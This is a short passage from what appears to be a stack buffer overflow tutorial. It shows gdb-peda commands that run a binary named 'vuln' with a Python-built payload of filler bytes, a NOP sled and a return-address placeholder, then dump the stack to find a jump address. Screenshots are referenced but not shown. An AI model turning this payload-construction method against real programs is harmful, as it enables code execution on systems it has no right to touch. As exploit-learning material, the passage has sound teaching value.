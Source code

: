 ![overflow 13](/assets/images/15/2021-10-20_17-25.png){:class="img-responsive"}    

Then, find address for "jumping":      
```bash
gdb -q ./vuln
gdb-peda$ b overflow
gdb-peda$ r $(python -c 'print ("\x41" * (272 - 96 - 74 - 4) + "\x90" * 96 + "\x44" * 74 + "\x42" * 4)')
gdb-peda$ x/1000xb $esp+500
```

![overflow 14](/assets/images/15/2021-10-20_18-05.png){:class="img-responsive"}    
